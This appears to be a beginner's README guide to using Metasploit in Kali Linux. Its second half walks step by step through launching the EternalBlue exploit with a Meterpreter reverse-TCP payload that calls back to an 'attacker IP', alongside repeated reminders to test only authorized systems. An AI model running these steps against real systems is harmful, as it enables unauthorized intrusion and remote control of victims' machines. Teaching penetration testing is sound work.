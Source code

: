 # Metasploit-

## Metasploit in Kali Linux: A Beginner's Guide


**Welcome, young Padawan!** Metasploit, pre-installed in Kali Linux, is a powerful **penetration testing framework** used by security professionals and enthusiasts alike. But for beginners, it can be daunting. Fear not, this guide will break it down into bite-sized pieces.

**What is Metasploit?**

Imagine a toolbox for digital detectives. Metasploit provides **exploits**, which are like lockpicks for vulnerabilities in software and systems. It also offers tools for **reconnaissance**, **scanning**, and **post-exploitation**, like picking the lock, exploring the house, and leaving a calling card.

**Why use Metasploit in Kali Linux?**

Kali Linux is a pre-configured distribution packed with security tools, and Metasploit is its crown jewel. It's **versatile**, working against various operating systems and applications. It's **easy to use**, with intuitive interfaces like `msfconsole` and web interfaces. And it's **open-source**, constantly evolving with new exploits and tools.

**Getting Started:**

1. **Open a terminal:** This is your command center.
2. **Start Metasploit:** Type `msfconsole` and hit Enter.
3. **Explore the commands:** Use `help` and `info` to learn about commands and modules.
4. **Search for exploits:** Use `search` with keywords like "windows" or "web".
5. **Learn the basics:** Practice using `show`, `use`, and `run` to explore and launch exploits.

**Important Tips:**

* **Always practice responsibly:** Only use Metasploit on authorized targets and for ethical purposes.
* **Start with safe environments:** Practice on virtual machines or dedicated testing environments.
* **Understand the risks:** Exploits can be complex and have unintended consequences.
* **Learn the theory:** Build a strong foundation in security concepts before diving into exploits.

**Resources:**

* **Official Metasploit documentation:** [https://docs.rapid7.com/metasploit/msf-overview](https://docs.rapid7.com/metasploit/msf-overview)
* **Kali Linux documentation:** [https://www.kali.org/docs/](https://www.kali.org/docs/)
* **Metasploit Beginner Tutorials:** [https://www.youtube.com/watch?v=tp-x0OHpmKc](https://www.youtube.com/watch?v=tp-x0OHpmKc)

**Remember:** Metasploit is a powerful tool. Use it responsibly, ethically, and with a thirst for knowledge. Soon, you'll be navigating the digital landscape like a seasoned security expert!

**Happy hacking (safely)!**

<h4>How To Use Metasploit In Kali Linux</h4>

Here's a step-by-step guide on how to use Metasploit in Kali Linux,

1. 📥 Install Kali Linux: First, make sure you have Kali Linux installed on your system. You can download it from the official website.

2. 🐞 Set Up Metasploit: Open the terminal and update the system by running the command:
   `sudo apt-get update`

   Then, install Metasploit by running:
   `sudo apt-get install metasploit-framework`

3. 📡 Launch Metasploit: Once installed, open the terminal and launch Metasploit by running:
   `msfconsole`

4. 🔎 Search for Exploits: To search for available exploits, use the command:
   `search <exploit>`
   For example, `search eternalblue`

5. ℹ️ Gathering Information: Use various commands such as `info` and `options` to get more information about a specific exploit.

6. ⚙️ Configure Exploit: To set the options for a specific exploit, use the command:
   `use <exploit>`
   For example, `use exploit/windows/smb/ms17_010_eternalblue`

7. 🛠️ Set Payload: Set the payload by using the command:
   `set payload <payload>`
   For example, `set payload windows/meterpreter/reverse_tcp`

8. 🎣 Set Exploit Options: Configure the exploit options using the `set` command. For example:
   `set RHOST <target IP>`
   `set LHOST <attacker IP>`

9. ▶️ Exploit: Once all the options are set, run the exploit using the `exploit` command.

10. 🕵️ Post-Exploitation: After successfully exploiting, you can perform various post-exploitation activities, such as gathering sensitive information or running additional commands on the target system.

Remember to use Metasploit responsibly and only on systems you have explicit permission to test. Happy hacking! 💻🔐🚫

